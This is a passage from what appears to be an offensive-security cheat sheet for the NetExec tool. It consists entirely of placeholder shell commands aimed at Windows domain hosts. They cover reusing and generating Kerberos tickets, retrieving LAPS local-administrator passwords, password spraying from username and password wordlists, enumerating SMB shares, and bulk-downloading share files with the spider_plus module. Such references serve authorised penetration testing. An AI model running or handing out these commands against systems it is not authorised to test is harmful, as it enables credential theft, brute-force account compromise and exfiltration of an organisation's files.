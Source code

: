 ```console
$ netexec smb <RHOST> -u '<USERNAME>' --use-kcache
```

##### Generate TGT

```console
$ netexec smb <RHOST> -u <USERNAME> -p <PASSWORD> --generate-tgt /PATH/TO/FILE/<FILE>.ccache
$ export KRB5CCNAME=<FILE>.ccache
$ netexec smb <RHOST> -u <USERNAME> -k --use-kcache
```

##### Generate krb5.conf

```console
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --generate-krb5-file /tmp/krb5conf2
$ export KRB5_CONFIG=/tmp/krb5conf2
$ echo '<PASSWORD>' | kinit <USERNAME>@<DOMAIN>
$ klist
```

### Bypassing LAPS

```console
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --laps
$ netexec winrm <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --laps
```

### Password Spraying

```console
$ netexec <PROTOCOL> <RHOST> -u <USERNAME> <USERNAME> <USERNAME> -p <PASSWORD>
$ netexec <PROTOCOL> <RHOST> -u <USERNAME> <USERNAME> <USERNAME> -p <PASSWORD> --ignore-pw-decoding
$ netexec <PROTOCOL> <RHOST> -u /PATH/TO/FILE/<USERNAMES> -p /PATH/TO/WORDLIST/<WORDLIST> --continue-on-success
$ netexec <PROTOCOL> <RHOST> -u /PATH/TO/FILE/<USERNAMES> -p /PATH/TO/WORDLIST/<WORDLIST> --no-bruteforce
$ netexec <PROTOCOL> <RHOST> -u /PATH/TO/FILE/<USERNAMES> -p /PATH/TO/WORDLIST/<WORDLIST> --no-bruteforce --continue-on-success
```

### SMB Protocol

#### SMB Share Enumeration

```console
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>'  --shares
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>'  --shares --dir
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>'  --shares --dir "<FOLDER>"
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>'  --shares --smb-timeout 10
```

#### Download Files

```console
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --shares -M spider_plus
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --shares -M spider_plus -o READ_ONLY=false
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --shares -M spider_plus -o DOWNLOAD_FLAG=true
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --shares -M spider_plus -o DOWNLOAD_FLAG=true MAX_FILE_SIZE=99999999
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --share <SHARE> --get-file <FILE> <FILE>
```
